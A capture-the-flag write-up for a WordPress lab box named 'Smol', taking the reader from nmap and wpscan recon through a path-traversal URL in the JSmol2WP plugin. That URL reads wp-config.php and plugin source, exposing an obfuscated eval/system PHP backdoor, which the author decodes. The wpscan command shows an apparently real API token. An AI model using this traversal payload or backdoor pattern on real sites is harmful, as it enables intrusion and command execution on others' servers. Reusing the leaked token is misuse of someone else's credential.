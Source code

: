 # Write-up: **Smol**
Smol is a medium-ranked CTF box that introduces us to vulnerable Wordpress plugins, highlighting the need for webmasters to keep dependencies up-to-date and to consider source and reputation of external packages. The vulnerable webpage allows the execution of malicious code, which gives the opportunity to gain a foothold on the system. Ultimately, root access is obtained through a combination of misconfigurations and poorly managed passwords.

## Reconaissance
As usual, our first step is to scan the victim's machine for open ports and identify services that are being offered. Using `nmap`, we scan the 1000 most popular ports.
```
nmap -sV smol.thm
```
As the result shows us, two ports are open, one offering SSH and the other an Apache webserver.
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

When we try to visit the website offered on port 80, we are being redirected to `www.smol.thm`, a domain that is unknown to our DNS server. Subsequently, we add the domain to our `/etc/hosts` file, allowing us to finally see the page.

![Initial view of webpage](img/Smol-InitialWebpage.png)

As we can see on the bottom-right of the page, the website is powered by the Wordpress framework. Therefore we can use `wpscan` to gather more information. Registering on [WPScan's website](https://wpscan.com/) allows you to additionally make use of API tokens, which enables `wpscan` to access the WordPress Vulnerability Database, basically allowing your scan to automatically detect vulnerable plugins and themes. Using the free-plan, one receives 25 tokens per day.
```
wpscan --url www.smol.thm --api-token WEHKBQUrGbrJWLv7F7yWCJoZkARqtYlh1DDnsZ46n6E
```
Among others, we are able to identify the follwing vulnerability in the JSmol2WP plugin, that allows us to manipulate server-sided requests, which can potentially be elevated to a LFI.
```
 | [!] Title: JSmol2WP <= 1.07 - Unauthenticated Server Side Request Forgery (SSRF)
 |     References:
 |      - https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20463
 |      - https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E5%8F%8D%E5%B0%84%E6%80%A7XSS
```
Following up the first reference, we find a proof of concept, allegedly allowing us to include files of the server into the rendered webpage.
```
http://localhost:8080/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

## Establishing a Foothold
Executing the PoC (*of course after having exchanged domain and port*) yields an interesting finding, since we can see the credentials of the MySQL user that is used by Wordpress.
```
/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', -REDACTED- );
```
If the developers that set up the server were prudent, they of course did not reuse those credentials for an actual user of the Wordpress blog. But were they? Since we can't directly navigate to the login page, we just open the blog article about RCEs and try to comment under it, which will redirect us to the login. And in fact, we can succesfully authenticate with the credentials that we just found.

We proceed to the admin section by clicking on the profile picture on the top-right of the page. There we can see that our user does not have an administrator role, since we can't see the user managament and plugins menu sections. On the other hand, we do have some kind of higher privilege, since we are able to maintain an internal page written by the administrator, listing his tasks.

![Internal wordpress page listing the webmaster's tasks](img/Smol-InternalPage.png)

Wait, hold up! The webmaster is talking about a backdoor in the "Hello Dolly" plugin? Wouldn't it be nice to inspect the content of this plugin, to see if the backdoor really does exist and how to make use of it? But since we're not administrators, we can't manage the Wordpress plugins and read their code - But we already have found a LFI, we just need to know where plugins are located and how they are structured.

Since Wordpress is a well-known and open-source framework, we can easily find out that plugins are located under `/wp-content/plugin/`. Digging a little deeper into the plugin "Hello Dolly", a minimalistic plugin for inserting little phrases into the webpage, we can also find out that this plugin is delivered as a single file, named `hello.php`. Let's include this file, as we did earlier with `wp-config.php` in the reconaissance stage.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php
```

In it, we find the following suspicious line of code, that the run every time the plugin is invoked.

```
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

A line of code is added to `hello.php` by the `eval` statement, which is obfuscated by base64 encoding. Let's decode the line.

```
echo CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA= | base64 -d
```

> if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }

Interpreting the combination of octal and hexadecimal literals in the strings, we see that the existence of the GET parameter `cmd` is checked and if it exists, its value is being executed. We found ourselves a RCE!


